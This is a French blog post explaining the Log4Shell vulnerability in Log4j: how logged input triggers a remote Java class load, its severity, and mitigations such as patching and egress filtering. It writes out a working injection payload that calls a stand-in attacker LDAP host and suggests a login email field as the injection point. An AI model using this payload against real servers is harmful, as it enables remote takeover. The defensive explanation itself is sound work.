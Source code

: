 ```yaml
---
layout: post
title:  "Découverte d'une vulnérabilité critique dans log4j"
date:   2021-12-11 18:23:35 +0100
image:  '/images/blog/log4shell-explications/header.png'
tags:   [Cybersécurité]
---
```


Depuis hier, une **vulnérabilité 0-day** sur la plupart des serveurs Java est exploitée dans le monde entier via une faille dans Log4j. Twitter, Apple, Minecraft et même les voitures Tesla sont vulnérables.

Mini-article pour vous expliquer la faille la plus importante de 2021. 

<div class="gallery-box">
  <div class="gallery">
  <img src="/images/blog/log4shell-explications/1469719525671194626-FGVVMggWYAY81Mw.jpg" draggable="false">
  </div>
</div>

Vous vous souvenez de ShellShock ? Là c'est **100 fois pire**.

Baptisée Log4Shell, cette attaque permet d'obtenir un shell sur la machine de la victime en lui faisant simplement afficher une payload d'une vingtaine de caractères dans ses logs: `${jndi:ldap://attacker.com/a}`

Le vecteur d'injection est généralement très simple, il suffit de l'inclure dans un paramètre qui sera affiché dans les logs, par exemple à la place de l'adresse email dans la page de connexion.

On peut voir ici la vulnérabilité déclenchée sur la page de login Twitter : 

<div class="gallery-box">
  <div class="gallery">
  <img src="/images/blog/log4shell-explications/1469719531820093450-FGVw9U5XwAMTaaN.png" draggable="false">
  </div>
</div>

Au moment de gérer cette requête, le moteur Log4j interprète le ${...} comme un template, et essaie de **récupérer un fichier Java** à l'URL indiquée.

Ce fichier Java est ensuite exécuté et permet donc à l'attaquant de prendre complètement le contrôle du serveur.

Si vous utilisez Log4j en production (spoiler alert : c'est probablement le cas même si votre stack n'utilise pas Java), vous avez de grandes chances d'être vulnérables à cette vulnérabilité dont la sévérité CVSS est de 10.0, soit le maximum possible ! 

<div class="gallery-box">
  <div class="gallery">
  <img src="/images/blog/log4shell-explications/1469719537922846732-FGV2PgyWYAIM3Ey.png" draggable="false">
  </div>
</div>

La faille est activement exploitée dans la nature de manière massivement automatisée (notamment pour installer des ransomwares sur les serveurs), et il est nécessaire de prendre des mesures immédiates.

Heureusement, il est facile de se protéger, je vous fais une petite liste. 

<div class="gallery-box">
  <div class="gallery">
  <img src="/images/blog/log4shell-explications/1469719540095406083-FGV4bzoXwAkcFDl.jpg" draggable="false">
  </div>
</div>

- Installez le patch de sécurité 2.15.0 si vous utilisez Log4j dans votre code
- Utilisez les versions de JRE supérieures à 6u211, 7u201, 8u191, et 11.0.1 (qui désactivent la politique par défaut à l'origine du bug)
- Filtrez et surveillez les flux sortants de vos serveurs

Pour la prochaine fois, si vous voulez découvrir les vulnérabilités en direct histoire de pouvoir les corriger rapidement (et pas le lendemain via un de mes threads lol), je vous invite à suivre <a href="https://twitter.com/ANSSI_FR" target="_blank">@ANSSI_FR</a> et <a href="https://twitter.com/CERT_FR" target="_blank">@CERT_FR</a>.

Précision : utiliser une JRE à jour ne suffit pas pour être protégé, seulement contre la payload la plus courante. Merci <a href="https://twitter.com/gouttegd" target="_blank">@gouttegd</a> pour l'info ! 

<div class="gallery-box">
  <div class="gallery">
  <img src="/images/blog/log4shell-explications/1469732334324879364-FGWJxDfX0AYlK3x.jpg" draggable="false">
  </div>
</div>

